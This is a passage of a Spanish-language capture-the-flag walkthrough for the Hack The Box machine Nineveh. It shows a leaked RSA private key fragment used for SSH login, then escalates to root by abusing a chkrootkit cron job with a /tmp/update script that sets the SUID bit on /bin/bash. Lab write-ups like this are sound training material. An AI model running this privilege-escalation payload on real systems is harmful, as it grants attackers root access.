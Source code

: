 ```bash
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
<data>
```

vemos una clave id_rsa, ahora que tenemos el puerto 22 abierto vamos a conectarnos mediante ssh aportando la clave, acordaos de dar los permisos necesarios para la clave (chmod 600 id_rsa):

```bash
❯ ssh -i id_rsa amrois@10.10.10.43

amrois@nineveh:~$ cat user.txt 
2f46d57277b815e44-----------
```

# ESCALADA DE PRIVILEGIOS

Ahora toca escalar privilegios, vamos a ver que procesos corren en la maquina con pspy:

```bash
amrois@nineveh:/tmp$ ./pspy64s                                                                                                                                                                                                             
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░
2021/08/10 07:05:03 CMD: UID=0    PID=18935  | /bin/sh /usr/bin/chkrootkit
```

Vemos que corre una tarea cron llamada chkrootkit, buscando que es por google encuentro que tiene una vulnerabilidad bastante grave: [link](https://www.exploit-db.com/exploits/33899)

Seguimos los pasos de la pagina: nos creamos un archivo llamado update en la carpeta /tmp con el payload que queramos y le damos permiso de ejecución (chmod +x update) y la tarea cron ejecutará el update como el usuario root.

```bash
amrois@nineveh:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
amrois@nineveh:~$ cd /tmp
amrois@nineveh:/tmp$ nano update
amrois@nineveh:/tmp$ cat update 
#!/bin/bash

chmod 4755 /bin/bash
amrois@nineveh:/tmp$ chmod +x update 
amrois@nineveh:/tmp$ watch -n 1 ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
amrois@nineveh:/tmp$ bash -p
bash-4.3# cat /root/root.txt
33524d90f416a84698e---------
```
